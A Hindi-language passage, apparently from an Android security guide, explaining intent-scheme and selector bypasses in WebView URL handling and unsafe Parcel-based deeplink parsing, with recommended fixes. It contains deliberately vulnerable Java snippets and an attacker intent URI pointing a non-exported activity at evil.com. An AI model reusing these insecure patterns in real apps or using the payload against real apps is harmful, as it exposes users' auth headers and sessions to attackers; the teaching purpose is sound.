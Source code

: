 बहुत सारे डेवलपर अभी भी WebView के माध्यम से प्राप्त होने वाले इंटेंट्स के पूरे फ़िल्टरिंग को भूल जाते हैं।
```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
Uri uri = request.getUrl();
if("intent".equals(uri.getScheme())) {
Intent intent = Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME);
intent.addCategory("android.intent.category.BROWSABLE");
intent.setComponent(null);
startActivity(intent);
return true;
}
return super.shouldOverrideUrlLoading(view, request);
}
```
अटैकर एक सेलेक्टर के माध्यम से एक गैर-निर्यातित कॉम्पोनेंट निर्दिष्ट कर सकता है।
```java
Intent intent = new Intent();
intent.setSelector(new Intent().setClassName("com.victim", "com.victim.AuthWebViewActivity"));
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // "intent:#Intent;S.url=http%3A%2F%2Fevil.com%2F;SEL;component=com.victim/.AuthWebViewActivity;end"
```
और ऐप के स्पष्ट इंटेंट के खिलाफ सुरक्षा को छोड़ दें। हम इसलिए सलाह देते हैं कि आप सेलेक्टर को भी फ़िल्टर करें।
```java
intent.addCategory("android.intent.category.BROWSABLE");
intent.setComponent(null);
intent.setSelector(null);
```
लेकिन पूर्ण फ़िल्टरिंग भी पूर्ण सुरक्षा की गारंटी नहीं देती है, क्योंकि हमलावर किसी गैर-निर्यातित गतिविधि के `intent-filter` के लिए एक निहित इंटेंट बना सकता है। एक गतिविधि घोषणा का उदाहरण:
```markup
<activity android:name=".AuthWebViewActivity" android:exported="false">
<intent-filter>
<action android:name="android.intent.action.VIEW" />
<category android:name="android.intent.category.DEFAULT" />
<data android:scheme="victim" android:host="secure_handler" />
</intent-filter>
</activity>
```

```java
webView.loadUrl(getIntent().getData().getQueryParameter("url"), getAuthHeaders());
```
इसलिए, हम सिफारिश करते हैं कि एक एक्टिविटी को शुरू किया जाने से पहले यह जांचें कि क्या वह निर्यात किया जा रहा है।

## असुरक्षित इंटेंट बनाने के अन्य तरीके

कुछ ऐप डेवलपर अपने **खुद के इंटेंट पार्सर** को लागू करते हैं (अक्सर **डीपलिंक्स** या पुश संदेशों को हैंडल करने के लिए), जिसमें वे डिफ़ॉल्ट से अलग नहीं होते हैं या फिर बड़ा खतरा प्रस्तुत करते हैं, क्योंकि वे **`Serializable`** और `Parcelable` ऑब्जेक्ट का विस्तार कर सकते हैं और वे असुरक्षित फ्लैग सेट करने की अनुमति भी देते हैं। सुरक्षा शोधकर्ता को इंटेंट निर्माण के और भी अनोखे संस्करणों का सामना करना पड़ सकता है, जैसे कि एक बाइट एरे को `Parcel` में कास्ट करना और फिर से उससे इंटेंट पढ़ना।
```java
Uri deeplinkUri = getIntent().getData();
if(deeplinkUri.toString().startsWith("deeplink://handle/")) {
byte[] handle = Base64.decode(deeplinkUri.getQueryParameter("param"), 0);
Parcel parcel = Parcel.obtain();
parcel.unmarshall(handle, 0, handle.length);
startActivity((Intent) parcel.readParcelable(getClassLoader()));
}
```
# Vuln app